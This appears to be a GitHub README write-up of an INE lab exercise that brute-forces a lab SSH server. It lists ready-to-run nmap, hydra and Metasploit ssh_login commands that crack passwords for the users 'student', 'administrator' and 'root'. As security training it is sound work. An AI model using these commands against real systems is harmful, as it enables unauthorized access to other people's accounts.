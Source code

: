 <h1>SSH Dictionary Attack</h1>


<h2>Description</h2>
This project consists of using nmap, hydra, & msfconsole as Linux tools to perfrom dictionary attacks on a targeted SSH server. 
<br />
<br />
<br />

Disclaimer: The Kali Linux user machine and target machine used in this project was provided to me by INE for educational purposes. The misuse of the information in this project lab can result in criminal charges brought against the individual/individuals in question.
<br />


<h2>Languages and Utilities Used</h2>

- <b>nmap</b>
- <b>hydra</b>
- <b>msfconsole</b>


<h2>Environments Used </h2>

- <b>Kali Linux</b>

<h2>Project walk-through:</h2>

<p align="left">
Ping target machine to verify that it is active, then run nmap scan to look for open tcp ports: <br/>
<br/>
- INE has provided me with Kali Linux GUI & target machine (target machine is one ip address above from mine).  I will run an ip a command to verify my own ip address. Then, I'll run a ping command to verify the target ip address is active.
<br/>
- Once I can verify that the target machine is active, I will run nmap scan to look for open tcp ports and try to obtain port information. 
<br/>
- Down below, we can see that port 22 (SSH) is open and its version is OpenSSH (Ubuntu Linux), which tells us that it is running Linux.
<br/>
<br/>
Commands: ip a
<br/>
ping 192.239.69.3
<br/>
nmap 192.239.69.3
<br/>
nmap 192.239.69.3 -p 22 -sV -O
<br/>
<br/>
<img src="https://i.imgur.com/WAHtHYv.png" height="80%" width="80%" alt="SSH Dictionary Attack" class="center"/>
<br />
<img src="https://i.imgur.com/7f8KtmC.png" height="80%" width="80%" alt="SSH Dictionary Attack" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />
Utilize Hydra (Linux tool) to perform a dictionary attack on the target SSH server: <br/>
<br/>
- Hydra is a brute-forcing tool that helps penetration testers and ethical hackers crack the passwords of network services. Hydra can perform rapid dictionary attacks against more than 50 protocols. This includes telnet, SSH, FTP, HTTP, HTTPS, SMB, databases, and several other services.
<br/>
- Below, we can see that I used the Hydra tool to see if I could successfully find a password for a user named "student".
<br/>
- From the results, it looks like the Hydra tool was able to successfully find a valid password for the user "student" by using the rockyou wordlist.
<br/>
<br/>
Commands: gzip -d /usr/share/wordlists/rockyou.txt.gz
<br/>
hydra -l student -P /usr/share/wordlists/rockyou.txt 192.239.69.3 ssh
<br/>
<br/>
<img src="https://i.imgur.com/2BTukDQ.png" height="80%" width="80%" alt="SSH Dictionary Attack" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />
Now that we have a valid password for the user "student", test an SSH log in: <br/>
<br/>
- We can see that I was able to successfully log into the SSH server, however it looks like the "student" user cannot really do much in regards with user permissions. 
<br/>
<br/>
Command: ssh student@192.239.69.3
<br/>
<br/>
<img src="https://i.imgur.com/NkUnaRy.png" height="80%" width="80%" alt="SSH Dictionary Attack" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />
Utilize the Nmap tool to try and find a valid password for user "administrator": <br/>
<br/>
- We can see that nmap started brute forcing by trying multiple passwords for user "administrator" until if found a match with the password sunshine. 
<br/>
<br/>
Commands: echo "administrator" > user
<br/>
nmap 192.239.69.3 -p 22 --script ssh-brute --script-args userdb=/root/user
<br/>
<br/>
<img src="https://i.imgur.com/hyyFnMI.png" height="80%" width="80%" alt="SSH Dictionary Attack" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />
Utilize the msfconsole (Metasploit) tool to conduct a dictionary attack and try to find a valid password for user "root": <br/>
<br/>
- We can see that Metasploit was able to use a wordlist to successfully find a password (attack) for the user "root". 
<br/>
<br/>
Commands: msfconsole
<br/>
use auxiliary/scanner/ssh/ssh_login
<br/>
set rhosts 192.239.69.3
<br/>
set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt
<br/>
set stop_on_success true
<br/>
set verbose true
<br/>
exploit
<br/>
<br/>
<img src="https://i.imgur.com/EckkDx3.png" height="80%" width="80%" alt="SSH Dictionary Attack" class="center"/>
<br />
<img src="https://i.imgur.com/7lV2bHA.png" height="80%" width="80%" alt="SSH Dictionary Attack" class="center"/>
<br />
<img src="https://i.imgur.com/hV3G79C.png" height="80%" width="80%" alt="SSH Dictionary Attack" class="center"/>
<br />
<img src="https://i.imgur.com/bFKCi8s.png" height="80%" width="80%" alt="SSH Dictionary Attack" class="center"/>
<br />
<br />
<br />
<br />
<br />
<br />
<br />



</p>
